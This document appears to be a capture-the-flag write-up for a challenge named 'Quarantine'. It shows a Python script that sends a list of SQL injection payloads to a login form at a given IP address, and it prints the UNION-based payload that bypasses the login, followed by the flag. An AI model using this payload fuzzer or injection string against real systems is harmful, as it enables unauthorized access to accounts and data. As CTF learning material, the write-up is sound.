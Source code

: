 # Quarantine

After testing on the website I found that entering `'` in the password field gave a 500 error

Yesss - SQL Injection!

I then copied a load of sql injection payloads from https://medium.com/@ismailtasdelen/sql-injection-payload-list-b97656cfd66b into a text file

## Writing a python script to test all the payloads

```
import requests
import re

url = "http://95.216.233.106:15009/sign-in"
Headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://95.216.233.106:15009/sign-in", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
Payloads = open('injection.txt','r')

for payload in Payloads:
    payload = payload.strip()
    Data = {"user": "admin", "pass": payload}
    success = requests.post(url, headers=Headers, data=Data)
    error1 = re.findall('Invalid username / password', success.text)
    error2 = re.findall('Attempting to login as more than one user!??', success.text)
    if len(error1) == 0 and len(error2) == 0:
        if success.status_code == 200:
            print(payload)
```

```
$ python3 exploit.py 
-1' UNION SELECT 1,2,3--+
```
Enter the payload into the password field and you meet the flag

ractf{Y0u_B3tt3r_N0t_h4v3_us3d_sqlm4p}




